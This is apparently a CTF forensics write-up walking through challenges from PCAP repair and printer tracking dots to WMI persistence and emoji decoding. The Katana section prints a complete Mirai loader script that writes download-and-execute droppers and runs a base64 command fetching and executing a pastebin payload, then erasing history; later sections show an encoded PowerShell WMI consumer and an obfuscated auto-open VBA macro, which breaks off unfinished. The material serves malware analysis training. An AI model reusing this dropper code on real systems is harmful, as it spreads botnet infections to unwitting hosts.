# Forensics

## Corrupted PCAP

`Description`

```
The capture file appears to be damaged or corrupt. Could you find the FLAG?

Format Flag: CHH{XXX}
```

In this challenge, we were provided with a `pcap` file, but I couldn't open it, and it seems to be corrupted somewhere.



After searching on Google, I found that we can fix the file using the `pcapfix` tool. ([here](https://www.doyler.net/security-not-included/fixing-corrupted-capture-files))



After running it, we will get a stable pcap file, named `fixed_CorruptedPCAP.pcap`



After opening the repaired pcap file, we could hardly find anything useful in the main streams. However, something notable stands out in `where is my flag`. Then, I searched for this string and examined the non-displayed bytes. By scanning continuously, I noticed a slight difference when I pieced them together.
























Then, by joining the strings together, we get the `flag` and replace `flag` with `CHH`



---

## Yellow Whistleblower

`Description`

```
A Machine Identification Code (MIC), also known as printer steganography, yellow dots, tracking dots, or secret dots, is a digital watermark that certain color laser printers and copiers leave on every printed page, allowing identification of the device which was used to print a document and giving clues to the originator.

Developed by Xerox and Canon in the mid-1980s, its existence became public only in 2004. In 2018, scientists developed privacy software to anonymize prints to support whistleblowers publishing their work.

The flag format is CHH{Manufacturer-YYYYMMDD-HHMM}

YYYY: Year
MM: Month
DD: Day
HH: Hour
MM: Minute
Manufacturer: Name of printer (eg, Epson, Dell, HP,..)
```

After researching`MIC` and `yellow dots`, I found a very useful file to work with the challenge-related content. ([here](https://github.com/dfd-tud/deda)). By installing the tool and converting the PDF to an image file, we can extract the information.



```shell
command: deda_parse_print p-1.png
```



With 

```
The flag format is CHH{Manufacturer-YYYYMMDD-HHMM} 
```

=> flag is `CHH{Epson-20200205-1002}`

---

## AudiCaty

`Description`

```
The Spectrogram View of an audio track provides a visual indication of how the energy in different frequency bands changes over time. The Spectrogram can show sudden onset of a sound, so it can often be easier to see clicks and other glitches or to line up beats in this view rather than in one of the waveform views.

When you got a message Flag{XXX}, please submit the flag with format CHH{XXX}
```

This is a decent challenge involving a wav file. We just need to open it in `Audacity` in `Spectrogram mode` and adjust the spectrum for better visibility.


=> flag is `CHH{No_Bullets_for_Player_001}`

---

## From The Above

`Description`

```
Every day multiple NOAA weather satellites pass above you. Each NOAA weather satellite broadcasts an Automatic Picture Transmission (APT) signal, which contains a live weather image of your area.

We have an APT audio recording. Could you decode it? When you got a message Flag{XXX}, please submit the flag with format CHH{XXX}
```

In this challenge, we received a `wav` file, and after some searching on `Google`, I found an online tool to convert data from the `wav` file. ([here](https://open-weather.community/decode/))



flag is `CHH{h3ll0_fr0m_th3_0th3r_Sky}`

---

## File Extension

`Description`

```
Is real photo?
```

In this challenge, we received an image file that couldn't be viewed. Using the `file` command, I found it to be a `32-bit Windows executable` file.



Then, I changed the file extension to `.exe` and ran it (note: it's recommended to run it in a `sandbox` or `virtual machine`...). Be sure to run it in the `cmd shell` to display the results and prevent crashes.



---

## Katana Botnet

`Description`

```
Gần đây chúng tôi phát hiện một số dịch vụ bất thường chạy trên máy chủ Linux của chúng tôi. Chúng tôi nghi ngờ nó đang bị lạm dụng để phân phối các tải trọng độc hại. Sau khi rà soát máy chủ, chúng tôi tìm thấy một tệp có vẻ là nguồn gốc của sự cố. Hãy giúp chúng tôi phân tích để tìm ra địa chỉ CnC đang lưu trữ tải trọng
```

After extracting the file, we obtained a malicious `Python` file containing a strange `Base64` string.

```python
import subprocess, sys, urllib, time, base64, subprocess
ip = urllib.urlopen('http://api.ipify.org').read()
exec_bin = "yakuza"
exec_name = "wget.ssh"
bin_prefix = ""
bin_directory = "vi"
archs = ["x86.yakuza",               #1
"mips.yakuza",                       #2
"mpsl.yakuza",                       #3
"arm4.yakuza",                       #4
"arm5.yakuza",                       #5
"arm6.yakuza",                       #6
"arm7.yakuza",                       #7
"ppc.yakuza",                        #8
"m68k.yakuza",                       #9
"sh4.yakuza"]                        #10
def run(cmd):
    subprocess.call(cmd, shell=True)
print("\x1b[0;37m[CC] INSTALLING WEB SERVER DEPENDENCIES")
run("yum install httpd -y &> /dev/null")
run("service httpd start &> /dev/null")
run("yum install xinetd tftp tftp-server -y &> /dev/null")
run("yum install vsftpd -y &> /dev/null")
run("service vsftpd start &> /dev/null")
run('''echo "service tftp
{
    socket_type             = dgram
    protocol                = udp
    wait                    = yes
    user                    = root
    server                  = /usr/sbin/in.tftpd
    server_args             = -s -c /var/lib/tftpboot
    disable                 = no
    per_source              = 11
    cps                     = 100 2
    flags                   = IPv4
}
" > /etc/xinetd.d/tftp''')  
run("service xinetd start &> /dev/null")
run('''echo "listen=YES
local_enable=NO
anonymous_enable=YES
write_enable=NO
anon_root=/var/ftp
anon_max_rate=2048000
xferlog_enable=YES
listen_address='''+ ip +'''
listen_port=21" > /etc/vsftpd/vsftpd-anon.conf''')
run("service vsftpd restart &> /dev/null")
run("service xinetd restart &> /dev/null")
print("\x1b[0;37m[CC] CREATING .SH BINS")
time.sleep(3)
run('echo "#!/bin/bash" > /var/lib/tftpboot/tyakuza.sh')
run('echo "ulimit -n 1024" >> /var/lib/tftpboot/tyakuza.sh')
run('echo "cp /bin/busybox /tmp/" >> /var/lib/tftpboot/tyakuza.sh')
run('echo "#!/bin/bash" > /var/lib/tftpboot/tyakuza2.sh')
run('echo "ulimit -n 1024" >> /var/lib/tftpboot/tyakuza2.sh')
run('echo "cp /bin/busybox /tmp/" >> /var/lib/tftpboot/tyakuza2.sh')
run('echo "#!/bin/bash" > /var/www/html/yakuza.sh')
run('echo "ulimit -n 1024" >> /var/lib/tftpboot/tyakuza2.sh')
run('echo "cp /bin/busybox /tmp/" >> /var/lib/tftpboot/tyakuza2.sh')
run('echo "#!/bin/bash" > /var/ftp/yakuza1.sh')
run('echo "ulimit -n 1024" >> /var/ftp/yakuza1.sh')
run('echo "cp /bin/busybox /tmp/" >> /var/ftp/yakuza1.sh')
def exploitmake(cmd):
    subprocess.call(cmd, shell=True)
encoded = "Y2QgL3RtcDsgd2dldCBodHRwczovL3Bhc3RlYmluLmNvbS9yYXcvelltOHBWY3ogLU8gYSA+IC9kZXYvbnVsbCAyPiYxOyBjaG1vZCA3NzcgYTsgc2ggYSA+IC9kZXYvbnVsbCAyPiYxOyBybSAtcmYgYTsgaGlzdG9yeSAtYzsgY2xlYXI7"
exploit = str(base64.b64decode(encoded))
exploitmake(exploit)
for i in archs:
    run('echo "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://' + ip + '/'+bin_directory+'/'+bin_prefix+i+'; curl -O http://' + ip + '/'+bin_directory+'/'+bin_prefix+i+';cat '+bin_prefix+i+' >'+exec_bin+';chmod +x *;./'+exec_bin+' '+exec_name+'" >> /var/www/html/yakuza.sh')
    run('echo "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; ftpget -v -u anonymous -p anonymous -P 21 ' + ip + ' '+bin_prefix+i+' '+bin_prefix+i+';cat '+bin_prefix+i+' >'+exec_bin+';chmod +x *;./'+exec_bin+' '+exec_name+'" >> /var/ftp/yakuza1.sh')
    run('echo "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; tftp ' + ip + ' -c get '+bin_prefix+i+';cat '+bin_prefix+i+' >'+exec_bin+';chmod +x *;./'+exec_bin+' '+exec_name+'" >> /var/lib/tftpboot/tyakuza.sh')
    run('echo "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; tftp -r '+bin_prefix+i+' -g ' + ip + ';cat '+bin_prefix+i+' >'+exec_bin+';chmod +x *;./'+exec_bin+' '+exec_name+'" >> /var/lib/tftpboot/tyakuza2.sh')    
run("service xinetd restart &> /dev/null")
run("service httpd restart &> /dev/null")
run('echo -e "ulimit -n 99999" >> ~/.bashrc')
print("\x1b[0;37m[CC] BUILDING MIRAI PAYLOAD PAYLOAD")
time.sleep(3)
print("\x1b[0;37m[CC] FINISHED SETTING UP MIRAI PAYLOAD")
complete_payload = ("cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://" + ip + "/yakuza.sh; curl -O http://" + ip + "/yakuza.sh; chmod 777 yakuza.sh; sh yakuza.sh; tftp " + ip + " -c get tyakuza.sh; chmod 777 tyakuza.sh; sh tyakuza.sh; tftp -r tyakuza2.sh -g " + ip + "; chmod 777 tyakuza2.sh; sh tyakuza2.sh; ftpget -v -u anonymous -p anonymous -P 21 " + ip + " yakuza1.sh yakuza1.sh; sh yakuza1.sh; rm -rf yakuza.sh tyakuza.sh tyakuza2.sh yakuza1.sh; rm -rf *")
f = open("payload.txt","w+")
f.write(complete_payload)
f.close()
print("\x1b[0;37m[CC] YOUR MIRAI PAYLOAD OUTPUTTED TO: PAYLOAD.TXT")
time.sleep(3)
run("ulimit -u99999; ulimit -n99999")
run("clear")
run("rm -rf ~/payload.py")
exit()
```
 
`base64` string

```
Y2QgL3RtcDsgd2dldCBodHRwczovL3Bhc3RlYmluLmNvbS9yYXcvelltOHBWY3ogLU8gYSA+IC9kZXYvbnVsbCAyPiYxOyBjaG1vZCA3NzcgYTsgc2ggYSA+IC9kZXYvbnVsbCAyPiYxOyBybSAtcmYgYTsgaGlzdG9yeSAtYzsgY2xlYXI7
```



`decoded` ([here](https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=WTJRZ0wzUnRjRHNnZDJkbGRDQm9kSFJ3Y3pvdkwzQmhjM1JsWW1sdUxtTnZiUzl5WVhjdmVsbHRPSEJXWTNvZ0xVOGdZU0ErSUM5a1pYWXZiblZzYkNBeVBpWXhPeUJqYUcxdlpDQTNOemNnWVRzZ2MyZ2dZU0ErSUM5a1pYWXZiblZzYkNBeVBpWXhPeUJ5YlNBdGNtWWdZVHNnYUdsemRHOXllU0F0WXpzZ1kyeGxZWEk3))

```shell
cd /tmp; wget https://pastebin.com/raw/zYm8pVcz -O a > /dev/null 2>&1; chmod 777 a; sh a > /dev/null 2>&1; rm -rf a; history -c; clear;
```

I tried accessing the [url](https://pastebin.com/raw/zYm8pVcz) in the decoded segment and obtained the `flag`



`flag` is `CHH{Mirai_aka_Katana_b0tn3t}` 

---

## Dismantling

`Description`

```
Be careful with Alternative Protocol
```

For this challenge, after monitoring the `streams`, the strangest part was the odd strings preceding the URL `cookiearena.com`. I then filtered the streams containing these queries for analysis.



I used `tshark` with the following `command` to extract data and save it to `a.txt`

```shell
tshark -r Dismantling.pcap -Y "ip.src == 192.168.25.2 && dns.qry.name" -T fields -e dns.qry.name > a.txt
```



After manually filtering other `urls` and processing with `python`, we objained.



At this point, I searched for the signature `504B` and found that it represents a compressed file format. ([here](https://en.wikipedia.org/wiki/List_of_file_signatures))



Then, I used the following `yython script` to filter `urls` after the dot, and finally input the `hex bytes` into `HxD` to create a new file.

```python
with open('a.txt', 'r') as f:
    lines = f.readlines()
    
data = [line.split('.')[0] +"\n" for line in lines]

with open('b.txt', 'w') as f:
    f.writelines(data)
```





After checking with `file` command on Linux, I discovered it was an `Excel` file. Finally, I just changed the file extension to get the `flag`




---

## Event Subscription

`Description`

```
Đội CSIRT của chúng tôi được yêu cầu xử lý sự cố trên một máy chủ mà chúng tôi đã xử lý xong cách đây vài ngày. Vì vậy chúng tôi tin rằng vẫn còn một cơ chế persistence nào đó của kẻ tấn công mà chúng tôi đã bỏ sót
```

After researching keywords on Google, this appears to be a `WMI Forensics` challenge.

```
WMI is a built-in tool in Windows environments, legitimately used by administrators, setup scripts, and monitoring software. However, WMI can also be exploited during all stages of post-exploitation. Identify normal activity and look for anomalies
```

And 

```
The WMI repository is a database that contains information about the Windows Management Instrumentation (WMI) classes installed on a computer, and it has the following structure:

OBJECTS.DATA: Objects managed by WMI

INDEX.BTR: Index of files imported into OBJECTS.DATA

MAPPING[1-3].MAP: Correlates data in OBJECTS.DATA and INDEX.BTR
```

And I found a Python tool related to analyzing `WMI Forensics` ([here](https://github.com/davidpany/WMI_Forensics))

Accordingly, `PyWMIPersistenceFinder.py`

```
PyWMIPersistenceFinder.py is designed to find WMI persistence via FitlerToConsumerBindings solely by keyword searching the OBJECTS.DATA file without parsing the full WMI repository.

In testing, this script has found the exact same data as python-cim's show_FilterToConsumerBindings.py without requiring the setup. Only further testing will indicate if this script misses any data that python-cim can find.

In theory, this script will detect FilterToConsumerBindings that are deleted and remain in unallocated WMI space, but I haven't had a chance to test yet.
```

`Usage`

```shell
PyWMIPersistenceFinder.py <OBJECTS.DATA file>
```

I used this `command`

```shell
python2 /home/kali/WMI_Forensics/PyWMIPersistenceFinder.py OBJECTS.DATA
```

`Result`

```shell
Enumerating FilterToConsumerBindings...
    2 FilterToConsumerBinding(s) Found. Enumerating Filters and Consumers...

    Bindings:

        WMI-WMI
            Consumer: 
                Consumer Type: CommandLineEventConsumer
                Arguments:     powershell -e ZQBjAGgAbwAgACIAQwBIAEgAewBXAE0ASQBfAFQAaAAzAF8ANQB0AGUANABsAHQAaAB5AF8AYwAwAG0AUAAwAG4AMwBOAHQAdAB9ACIA
                Consumer Name: WMI
            Consumer: 
                Consumer Type: CommandLineEventConsumer
                Arguments:     \\.\root\subscription:__Win32Provider.Name="CommandLineEventConsumer"
                Consumer Name: WMI
                Other:         Event

            Filter: 
                Filter name:  WMI
                Filter Query: WmiProv


            Filter: 
                Filter name:  WMI
                Filter Query: SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325


            Filter: 
                Filter name:  WMI
                Filter Query: RD_TRACE_RESERVED_0d


            Filter: 
                Filter name:  WMI
                Filter Query: TRACE_FLAG_TIMER


            Filter: 
                Filter name:  WMI
                Filter Query: HeaderName


            Filter: 
                Filter name:  WMI
                Filter Query: Description


            Filter: 
                Filter name:  WMI
                Filter Query: WMIProv


            Filter: 
                Filter name:  WMI
                Filter Query: WmiGenerateHeader


            Filter: 
                Filter name:  WMI
                Filter Query: PowerMeterProvider


            Filter: 
                Filter name:  WMI
                Filter Query: AMENDMENT


            Filter: 
                Filter name:  WMI
                Filter Query: 


            Filter: 
                Filter name:  WMI
                Filter Query: guid


            Filter: 
                Filter name:  WMI
                Filter Query: HBAType


            Filter: 
                Filter name:  WMI
                Filter Query: locale


            Filter: 
                Filter name:  WMI
                Filter Query: Connection


            Filter: 
                Filter name:  WMI
                Filter Query: GuidName1


            Filter: 
                Filter name:  WMI
                Filter Query: Guid


            Filter: 
                Filter name:  WMI
                Filter Query: localeid


            Filter: 
                Filter name:  WMI
                Filter Query: wmiprov


            Filter: 
                Filter name:  WMI
                Filter Query: cpp_quote


            Filter: 
                Filter name:  WMI
                Filter Query: DisplayName


            Filter: 
                Filter name:  WMI
                Filter Query: Locale

        SCM Event Log Consumer-SCM Event Log Filter
                (Common binding based on consumer and filter names, possibly legitimate)
            Consumer: NTEventLogEventConsumer ~ SCM Event Log Consumer ~ sid ~ Service Control Manager

            Filter: 
                Filter name:  SCM Event Log Filter
                Filter Query: select * from MSFT_SCMEventLogEvent
```

We can see the filtered information in the payload, and there is a suspicious `powershell` script, I attempted to decode it using `base64`, and we objained the `flag`



[link here](https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)To_Hex('Space',0)Find_/_Replace(%7B'option':'Regex','string':'00%20'%7D,'',true,false,true,false)From_Hex('Auto')&input=WlFCakFHZ0Fid0FnQUNJQVF3QklBRWdBZXdCWEFFMEFTUUJmQUZRQWFBQXpBRjhBTlFCMEFHVUFOQUJzQUhRQWFBQjVBRjhBWXdBd0FHMEFVQUF3QUc0QU13Qk9BSFFBZEFCOUFDSUE)

---

## Ecoji

`Description`

```
Annie nghi ngờ rằng chồng mình có nhân tình vì anh ta thường xuyên sử dụng emoji (biểu tượng cảm xúc) của Windows để nhắn tin như một dạng mã hóa tin nhắn. Vì vậy nhân lúc chồng đi vắng, cô ấy quyết định forensics xem anh ta đã nhắn những gì
```

For this challenge, we were given a large folder. I tried searching on `Google` using `keywords` like `Windows forensics Emoji` and found a source that mentioned the location of `emojis` [link here](https://res260.medium.com/%EF%B8%8F-%EF%B8%8F-windows-forensics-how-to-retrieve-and-parse-the-emoji-picker-history-in-the-filesystem-d3766282325a)

According to the article, `emojis` are stored at: `%localappdata%\Packages\MicrosoftWindows.Client.CBS_cw5n1h2txyewy\Settings` and are located in the file `settings.dat`

From the `settings.dat` file, we can observe the presence of `1` and `0` before the `Unicode characters`. I then filtered the hex values that contained 1, and used the following script to convert them into `emojis`



```python

hex_data = [
    "31", "00", "09", "00", "15", "26", "0A", "00", "31", "00", "09", "00", "3C", "D8", "68", "DF",
    "0A", "00", "31", "00", "09", "00", "3E", "D8", "EC", "DD", "0A", "00", "31", "00", "09", "00",
    "3E", "D8", "1B", "DD", "0A", "00", "31", "00", "09", "00", "3C", "D8", "54", "DF", "0A", "00",
    "31", "00", "09", "00", "3D", "D8", "83", "DE", "0A", "00", "31", "00", "09", "00", "3D", "D8",
    "69", "DC", "0A", "00", "31", "00", "09", "00", "3D", "D8", "30", "DC", "0A", "00", "31", "00",
    "09", "00", "3D", "D8", "96", "DD", "0A", "00", "31", "00", "09", "00", "3D", "D8", "82", "DE",
    "0A", "00", "31", "00", "09", "00", "3D", "D8", "85", "DC", "0A", "00", "31", "00", "09", "00",
    "3D", "D8", "C1", "DE", "0A", "00", "31", "00", "09", "00", "3D", "D8", "F0", "DC", "0A", "00",
    "31", "00", "09", "00", "3C", "D8", "4C", "DF", "0A", "00", "31", "00", "09", "00", "3E", "D8",
    "D9", "DD", "0D", "20", "42", "26", "0F", "FE", "0A", "00"
]

def hex_to_unicode(hex_data):
    
    hex_string = ''.join(hex_data)

    byte_data = bytes.fromhex(hex_string)

    unicode_chars = byte_data.decode('utf-16le')
    return unicode_chars

unicode_result = hex_to_unicode(hex_data)

emoji_list = [char for char in unicode_result if char.strip() and char != '1']

print(' '.join(emoji_list))

#☕ 🍨 🧬 🤛 🍔 🚃 👩 🐰 🖖 🚂 💅 🛁 📰 🍌 🧙 ‍ ♂
```

At this point, I used a tool related to `emojis` to try decoding. ([link tool here](https://github.com/keith-turner/ecoji))

After some attempts, I kept encountering errors.



At this point, I tried encoding the first part of the `flag` to compare.



We can see that it is reversed, so I reversed the `emojis` and tried to decode them again. Note that we need to remove the spaces to match the correct format.



---

## Under Control

`Description`

```
Sau khi mẫu tài liệu độc hại của Hòa bị các nhà phân tích từ Cookie Arena mổ xẻ và mỉa mai là quá đơn giản, Hòa quyết tâm tham gia tiếp một khóa Tin học văn phòng nâng cao để tạo ra một mẫu mã độc phức tạp hơn. Sau đó, Hòa thử nghiệm mẫu mã độc mới bằng cách đính kèm vào email phishing cho thầy giáo của mình. Cuối cùng Hòa chiếm quyền điều khiển thành công máy tính của thầy giáo và thậm chí còn đánh cắp được tập bài kiểm tra cuối kì sắp tới.
```

[Tải challenge](https://drive.google.com/file/d/1gISGx8IgR84qTBW7fbXs5HqlED1TESQ-/view?usp=drive_link) (pass: cookiehanhoan)

Based on the description, we can infer that the malware will be a macro in the file `Danh%20s%C3%A1ch%20ph%C3%B2ng%20thi.xls`



Then, by exporting the file and using the `olevba` tool, I proceeded to analyze the malicious `macros`

```shell
olevba Danh%20s%C3%A1ch%20ph%C3%B2ng%20thi.xls
```



`Result`

```powershell
Sub Auto_Open()
Workbook_Open
End Sub
Sub AutoOpen()
Workbook_Open
End Sub
Sub WorkbookOpen()
Workbook_Open
End Sub
Sub Document_Open()
Workbook_Open
End Sub
Sub DocumentOpen()
Workbook_Open
End Sub
Function ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨)
¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»· = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢ = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨)
¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯© = InStr(¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·, Mid(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨, y, 1))
If ¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯© > 0 Then
¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®« = Mid(»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢, ¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯©, 1)
¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» + ¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«
Else
¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» + Mid(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨, y, 1)
End If
Next
ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨ = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»
For ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶° = 1 To Len(®¶®¾ª¼¿¢·¥»°¾£º¤¿º·¡¦ª¹¹¾´°¢²¶©»°´¢«°µ¸¶¥¤·«½¿¢´¹º¡º»º¸®µ»³¸µ»¦¦½¨¾¾¨¦²)
®¶®¾ª¼¿¢·¥»°¾£º¤¿º·¡¦ª¹¹¾´°¢²¶©»°´¢«°µ¸¶¥¤·«½¿¢´¹º¡º»º¸®µ»³¸µ»¦¦½¨¾¾¨¦² = ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶°
Next
For ¥½µ©¡»¡·¤¼¶µ¢¾·½¼¾®¦»»¼¬§ª¦·°¹·³¹¸¤µ³³¡¢£§´¤´¹¨´¡¾¦¬°¹¦¼¥°¡³» = 2 To Len(£©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦)
£©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦ = 2
Next
For »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£· = 3 To Len(»¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸)
»¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸ = »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£·
Next
For ¹®µ´¾¥»³ºª´¡¹®¶¶®¦·³«¢¢¢¹µ¹½¸¦§¥§·°°¡µ¼¤¿©¦¸£¥¥¹¦¶¨¹«©§µ¡´²·°º¢·¡¸²µ¤°²³¯£«¶£ = 4 To Len(´³®½£¼µ·©¡¤¨®º²§¿»²¹£°»¦¾¹²²³¡¨«¯°»³¸¢»¹²£»´£¬¦º¸¸³¾½¨¡º¥¬¥«¹·§¶¶°¦«¹¥¤·)
´³®½£¼µ·©¡¤¨®º²§¿»²¹£°»¦¾¹²²³¡¨«¯°»³¸¢»¹²£»´£¬¦º¸¸³¾½¨¡º¥¬¥«¹·§¶¶°¦«¹¥¤· = 2
Next
End Function
Sub Workbook_Open()
Dim ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§ As Object
Dim ¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ As String
Dim ¤¸¿º«¡¬¡°µ²¢¹¾¿¡¼²¥¾®¨¶µ»¾«º½¼»ª²¢¾ª¤»¹¬»¾»¸¤µµ°¡§¬¿§¢¥§¥£¶¢¥©¨ As String
Dim §»¶¬¡¦¹³¾¸¸³££¹´´¸³¥¦´¢¹¥··£°¿²»º¶°°¥©²¢°¾ª«°©«®·½½··´®¹°µµ©½½§¥·°»¢¼¼´¡¦¡«¹ As String
Dim ¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ As Integer
